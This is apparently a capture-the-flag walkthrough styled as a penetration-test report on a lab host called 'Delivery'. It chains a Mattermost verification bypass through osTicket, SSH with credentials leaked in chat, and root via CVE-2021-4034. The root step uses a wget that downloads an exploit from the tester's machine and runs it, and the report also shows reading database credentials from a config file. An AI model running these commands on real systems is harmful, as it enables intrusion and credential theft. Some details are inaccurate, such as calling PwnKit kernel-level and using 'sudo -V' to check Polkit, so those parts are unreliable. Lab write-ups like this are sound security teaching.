

## Engagement Overview

The auditor was tasked with assessing **Delivery**, a Linux host running a customer support platform and an internal team chat service, under a black-box methodology with no prior credentials. The objective was to identify exploitable weaknesses reachable from an unauthenticated network position and determine the maximum level of access achievable.

## Methodology

The engagement followed a standard four-phase approach: reconnaissance, vulnerability identification, exploitation, and privilege escalation. Each finding below is presented with its technical root cause, the steps taken to validate it, and remediation guidance.

## Reconnaissance

The tester ran a full TCP port scan against the target:

```bash frame="code"
$ nmap -p- --min-rate 10000 10.10.10.222 -oN result.nmap -Pn -n --disable-arp-ping
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8065/tcp open  unknown
```

Port 80 hosted a corporate landing page. Enumeration of the site surfaced a subdomain, `helpdesk.delivery.htb`, running an **osTicket** support platform, and port 8065 was found to host a **Mattermost** internal team chat instance. Exposing both a public ticketing system and an internal chat platform on the same perimeter is a design choice that materially increases attack surface, and it is what enabled the finding below.

## Finding 1: Account Verification Bypass Leading to Internal Chat Access

> [!CAUTION]
> **Severity: High.** Unauthenticated access to an internal communication platform, exposing credentials.

Mattermost required a verified `@delivery.htb` email address to complete account registration, a control normally restricted to internal staff. The tester identified a bypass using the public osTicket instance as an email relay:

1. A support ticket was opened on the public helpdesk, which auto-generates a unique ticket ID and an internal `<id>@delivery.htb` reply address for that ticket.
2. The tester registered a Mattermost account using that auto-generated `@delivery.htb` address.
3. Attempting to log in prompted for email verification. Triggering a password reset or a duplicate registration against that same address caused Mattermost to send its verification link to the ticket's reply address.
4. Because osTicket relays any mail sent to that address back into the ticket thread (visible to the ticket's creator), the tester simply read the verification email from inside their own support ticket and completed the bypass.

```bash frame="code"
$ curl "http://delivery.htb:8065/do_verify_email?token=q7c3i6hcywfiaxcugize6fx3hb647eykthupsh9869hhbsz795ojwsqidmsh6mqq&email=3572016%40delivery.htb"
```

This granted the tester an authenticated, internal-facing view of the company's Mattermost workspace, despite having no legitimate employee credentials.

## Finding 2: Plaintext Credentials Disclosed in Chat History

> [!CAUTION]
> **Severity: Critical.** Valid SSH credentials for a system account, disclosed in a persistent, readable chat channel.

Once inside Mattermost, the tester reviewed the default `Internal` channel and found operational messages left by an administrator containing a plaintext credential for the `maildeliverer` system account, along with a password-reuse warning that itself hinted at the organization's password pattern:



```bash frame="code"
$ ssh maildeliverer@10.10.10.222
maildeliverer@10.10.10.222's password:
maildeliverer@Delivery:~$ ls -la
-r-------- 1 maildeliverer maildeliverer   33 Aug  8 11:30 user.txt
```

This confirmed valid, unauthenticated-to-authenticated escalation from the chat bypass directly into a shell on the host.

## Finding 3: Privilege Escalation via Polkit (CVE-2021-4034)

> [!CAUTION]
> **Severity: Critical.** Local privilege escalation from a low-privileged user to `root`.

Post-exploitation enumeration showed the host was running outdated system packages. Checking the sudo and OS versions confirmed exposure to **CVE-2021-4034** (the "PwnKit" Polkit `pkexec` vulnerability):

```bash frame="code"
maildeliverer@Delivery:~$ sudo -V
maildeliverer@Delivery:~$ cat /etc/os-release
```

The tester compiled and ran a public proof-of-concept for CVE-2021-4034:

```bash frame="code"
maildeliverer@Delivery:/tmp$ wget http://10.10.16.4/cve-2021-4034-poc.c
maildeliverer@Delivery:/tmp$ gcc cve-2021-4034-poc.c -o cvepkexec
maildeliverer@Delivery:/tmp$ ./cvepkexec
# id
uid=0(root) gid=0(root) groups=0(root),1000(maildeliverer)
```

This confirmed full root compromise of the host.

### Alternative Path: Exposed Database Credentials

As a secondary validation path, the tester also located Mattermost's own database credentials in its configuration file and used them to reach the application's user table directly:

```bash frame="code"
maildeliverer@Delivery:/opt/mattermost/config$ cat config.json
"DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost..."
```

That connection string was used to authenticate directly to the database and query the application's own user table:

```bash frame="code"
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -p
MariaDB [mattermost]> select * from users;
```

The recovered `root` account hash was a bcrypt hash, which the tester noted would require a targeted wordlist (built from the same "PleaseSubscribe!" phrase already observed in the chat leak) rather than a standard dictionary, illustrating how a single weak password pattern can compromise multiple layers of the same environment.

## Impact

The compromise chain began with a business-logic flaw, not a code vulnerability: an unauthenticated user could weaponize the public support ticket system as a mail relay to defeat Mattermost's internal-only access control. From there, operational hygiene issues (plaintext credentials pasted into chat, and an unpatched kernel/Polkit stack) converted that initial foothold into full root access. An attacker exploiting this chain would gain complete control of the host and full visibility into internal team communications.

## Recommendations

- **Do not expose internal chat or collaboration tools on the same perimeter as public-facing services** that can be used to receive mail on the internal domain's behalf.
- **Disable or tightly scope ticket-to-email relaying** so ticket creators cannot receive mail addressed to arbitrary internal accounts.
- **Never share credentials in chat channels**, even internal ones; use a secrets manager with access logging instead.
- **Patch Polkit and the kernel** to a version that resolves CVE-2021-4034, and apply OS updates on a regular cadence.
- **Enforce unique, non-pattern-based passwords** across services; a single guessable pattern ("PleaseSubscribe!" variants) put multiple accounts at risk simultaneously.

## Conclusion

The auditor successfully demonstrated a full compromise of the Delivery host, starting from an unauthenticated abuse of the public ticketing system, through credentials leaked in internal chat, to root via a known kernel-level vulnerability. Both the access-control bypass and the privilege escalation path are detailed above with reproduction steps and remediation guidance.
